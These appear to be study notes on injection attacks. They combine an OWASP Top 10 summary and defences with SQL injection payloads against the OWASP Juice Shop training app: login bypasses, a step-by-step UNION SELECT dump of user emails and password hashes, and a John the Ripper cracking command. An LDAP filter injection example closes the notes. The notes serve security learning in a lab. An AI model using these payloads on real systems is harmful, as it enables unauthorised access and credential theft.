 
1. **Injection Attacks Remain a Significant Security Risk**:
    - Injection is ranked #3 in the OWASP Top 10 2021, indicating it is still a major concern for web applications.
    - While not as prevalent as some other risks, injection vulnerabilities are still found in over 50% of applications tested.
2. **Understanding Injection Attacks**:
    - Injection attacks allow attackers to relay malicious code through an application to another system, such as the operating system, database, or external programs.
    - The most common type of injection is SQL injection, but other forms like LDAP injection also exist.
3. **Factors Contributing to Injection Risks**:
    - 33 CWEs (Common Weakness Enumerations) were mapped to injection vulnerabilities.
    - Injection attacks have a high average weighted exploit score (7.25/10) and impact score (7.15/10), indicating they are relatively easy to exploit and can have severe consequences.
4. **Injection Attack Mechanics**:
    - Injection attacks occur when user-supplied input is not properly validated or sanitized before being used in a command or query by the application.
    - Attackers can craft malicious input to manipulate the intended command or query, leading to unauthorized access, data exposure, or other malicious outcomes.
5. **Protecting Against Injection Attacks**:
    - Avoid accessing external interpreters whenever possible, and use safe APIs that provide built-in protections.
    - Validate and sanitize all user input to ensure it does not contain malicious content.
    - Structure requests to treat user-supplied parameters as data, not executable content.
    - Limit the privileges of the application to the minimum required to perform its function.
    - Escape special characters and use SQL controls to prevent mass disclosure of records.
6. **Resources for Guidance**:
    - The OWASP Application Security Verification Standard (ASVS) and other OWASP resources provide detailed guidance on preventing injection vulnerabilities.

>[!info] Summary
>The key message is that while injection attacks are not as prevalent as they once were, they remain a significant security risk that requires careful attention to input validation, secure coding practices, and the use of appropriate safeguards to protect against malicious exploitation.

---

##### SQL Injection:

txtSQL = ‘SELECT * FROM Users WHERE Username = “ ’ + txtUsername’ ”AND Password=” ’+txtPassword+’ ” ’

_Injection:_ John” OR 1=1’

txtSQL = **‘**SELECT * FROM Users WHERE Username = “John” OR 1=1’** _“AND Password= ”” ’_
asdhhs' or 1=1--
Password part is ignored

URLs:

- [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
    
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
    

> Login form: login with the first entry of the Users table

' or 1=1--

> Login form: login with any user:

bender@juice-sh.op'--

---

> Search functionality:

test')) UNION SELECT id,username,email,password,role,6,7,8,9 FROM USERS--

URL encoded version (*Ctrl+U in BurpSuite*):

/rest/products/search?q=test'))+UNION+SELECT+id,username,email,password,role,6,7,8,9+FROM+USERS--

> Example of how you could get to this result (each line is a payload to test/try, in order):

'

'--

'))

'))--

')) UNION SELECT * FROM sqlite_schema-- (info here: [](https://www.sqlite.org/schematab.html)[https://www.sqlite.org/schematab.html](https://www.sqlite.org/schematab.html)))

test')) UNION SELECT * FROM sqlite_schema--

test')) UNION SELECT 1 FROM sqlite_schema--

test')) UNION SELECT 1,2 FROM sqlite_schema--

(repeat until you match the amount of columns the original table (Products) has)

test')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM sqlite_schema--

test')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_schema--

test')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_schema--

test')) UNION SELECT id,username,email,password,role,6,7,8,9 FROM Users--

> You can then extract the emails + hashes passwords of the users and crack with John The Ripper or Hashcat:

$ cat password.hash

admin@juice-sh.op:0192023a7bbd73250516f069df18b500

$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 password.hash

##### LDAP (Lightweight Directory Access Protocol)

**find("(&(cn=John)(userPassword=mypass))")**
http:\//www.example.com/ldapsearch?user=John
--> **searchfilter="(cn="+user+")"**
--> **searchlogin = "(&(uid="+user+")userPassword={MD5}"+base64(pack("H*",md5(pass)))+"))"**

*Injection:* \*)(uid=\*))( |(uid=\*
password: password

searchlogin = "(**&(uid=\*)(uid=\*)**)( **|**(uid=\*)*(userPassword={MD5}X03MO1qnZdgyfeuILPmQ\==))*;
1st statement: (uid=\*) AND (uid=\*) == True
2nd statement: ( **(uid=\*)** OR (userPassword= ...)) == True

---
